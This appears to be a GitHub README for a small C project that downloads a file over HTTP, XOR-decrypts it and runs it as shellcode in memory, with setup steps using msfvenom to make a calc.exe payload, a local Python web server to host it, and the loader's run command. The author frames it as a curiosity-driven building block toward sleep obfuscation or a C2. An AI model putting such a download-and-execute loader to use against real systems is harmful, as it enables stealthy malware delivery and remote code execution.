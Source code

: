 # Shellcode Execution Project

## Overview

This project demonstrates how to download a file over HTTP using the WinHTTP library, encrypt/decrypt its contents using XOR single-byte key, and execute it as shellcode in memory. I mostly tried doing this out of curiosity. I'm just trying to get a sort of "building block" so I can attempt to create a Sleep Obfuscation technique and see how it works to then improve on it later for future projects... maybe a C2? 👀🤷 Who knows...

## Project Structure

- `src/main.c`: Main logic for the program.
- `src/encryptor.c`: Encryption and decryption functionality.
- `src/http_client.c`: Handles HTTP downloads.
- `include/encryptor.h`: Header file for the encryption logic.
- `Makefile`: Build system.

## Build and Run

### Build
```bash
make
```

### Steps to setup for analysis

Make sure you creat the shellcode first with `msfvenom` like so:
```bash
msfvenom -p windows/x64/exec cmd=calc.exe EXITFUNC=thread -f raw -o calc.bin
```

Then create the python web server to host the file: 
```python
python3 -m http.server
```

Then run the file with the right arguments:
```bash
./ultra-hider.exe localhost 8000 calc.bin
```

